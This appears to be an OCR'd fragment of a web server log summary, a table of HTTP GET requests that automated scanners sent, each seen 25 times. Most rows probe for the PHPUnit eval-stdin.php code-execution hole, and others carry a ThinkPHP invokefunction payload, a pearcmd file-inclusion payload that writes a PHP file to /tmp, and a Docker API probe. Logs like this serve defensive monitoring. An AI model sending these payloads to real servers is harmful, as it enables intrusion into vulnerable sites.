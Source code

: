 |  66 |                    25 | GET /vendor/phpunit/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                  |
|  67 |                    25 | GET /vendor/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                              |
|  68 |                    25 | GET /vendor/phpunit/phpunit/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                          |
|  69 |                    25 | GET /workspace/drupal/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
|  70 |                    25 | GET /blog/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                 |
|  71 |                    25 | GET /backup/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
|  72 |                    25 | GET /admin/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                |
|  73 |                    25 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                     |
|  74 |                    25 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                           |
|  75 |                    25 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
|  76 |                    25 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
|  77 |                    25 | GET /ws/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                   |
|  78 |                    25 | GET /yii/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                  |